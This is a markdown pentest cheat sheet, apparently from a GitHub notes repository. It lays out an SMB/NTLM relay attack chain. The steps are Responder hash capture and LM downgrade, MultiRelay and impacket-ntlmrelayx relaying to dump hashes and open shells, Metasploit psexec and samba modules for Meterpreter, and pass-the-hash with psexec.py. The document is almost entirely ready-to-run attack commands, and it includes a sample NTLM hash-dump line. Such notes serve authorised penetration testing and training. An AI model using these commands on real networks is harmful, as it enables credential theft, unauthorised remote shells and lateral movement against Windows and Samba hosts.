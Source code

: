 ## Search for SMB signing
* `responder-RunFinger -i <target>`
    - identify host with SMB signing disbled 

## Responder 
* change `/etc/responder/Responder.conf` - relay the hash
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm> <-dwPv>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
## Getting shell
### 1. MultiRelay
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf - capture the hashes
- 1. Run responder until hashes is received and close
- 2. Run Multirelay
- 3. While MultiRelay is running, run again responder

### 2. ntlmrelayx
In responder.conf, `SMB` and `HTTP` are Off
* `impacket-ntlmrelayx -t <target>` - dumps the local hashes
* `impacket-ntlmrelayx -t 172.16.5.10 -i` - interactive shell

## Upgrade to Meterpreter shell
### Windows
* msf> `use exploit/windows/smb/psexec`
  - `set smbuser <localAccount>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
  - `set smbpass <local-NTLM-hash>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
e.g. localAccount and local-NTLM-hash is bolded in the following: __admin__:1005:__aad3b435b51404eeaad3b435b51404ee:179699ef43d4b9ba2f8f615f59893917__:::
### Linux
* msf> `use exploit/linux/samba/is_known_pipename`

## Psexec shell
* `psexec.py <domain>/<user>:'<password>'@<target-IP>`
* `psexec.py <user>@<target-IP>` - hashes <local-NTLM hash>
